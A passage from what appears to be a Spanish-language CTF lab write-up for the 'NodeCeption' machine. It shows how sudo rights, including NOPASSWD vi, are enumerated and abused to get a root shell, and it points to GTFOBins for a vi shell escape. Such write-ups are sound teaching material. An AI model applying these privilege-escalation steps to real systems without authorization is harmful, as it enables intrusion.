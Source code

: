 
<br>
<br>
<hr>
<div style="position: relative;">
  <h1 id="Post" style="text-align:center;">Post Explotación</h1>
</div>
<br>


<h2 id="sudo">Escalando Privilegios Abusando de Privilegios de Usuario y Aplicando Shell Escape con Binario vi</h2>

Veamos qué privilegios tiene nuestro usuario:
```bash
thl@nodeception:~$ sudo -l
Matching Defaults entries for thl on nodeception:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User thl may run the following commands on nodeception:
    (ALL) NOPASSWD: /usr/bin/vi
    (ALL : ALL) ALL
```
Tenemos privilegios para usar cualquier comando. Además, también podemos usar **vi** con privilegios.

Como podemos ejecutar cualquier comando como **Root**, hay muchas posibilidades que podemos usar para escalar privilegios.

La más rápida sería usar la **Bash** con privilegios:
```bash
thl@nodeception:~$ sudo bash -p
[sudo] password for thl: 
root@nodeception:/home/thl# whoami
root
```
Funciona.

La cuestión aquí es que se necesitó la contraseña del **usuario thl**, contraseña que ya tenemos por aplicar fuerza bruta al **servicio SSH**.

Pero, digamos que únicamente tenemos privilegios sobre el **binario vi**, entonces podemos buscar en la **guía de GTFOBins** una forma de abusar de este binario:
* <a href="https://gtfobins.github.io/gtfobins/vi/" target="_blank">GTFOBins: vi</a>

Usaremos el siguiente comando:

<p align="center">
<img src="/assets/images/THL-writeup-nodeCeption/Captura28.png">
</p>
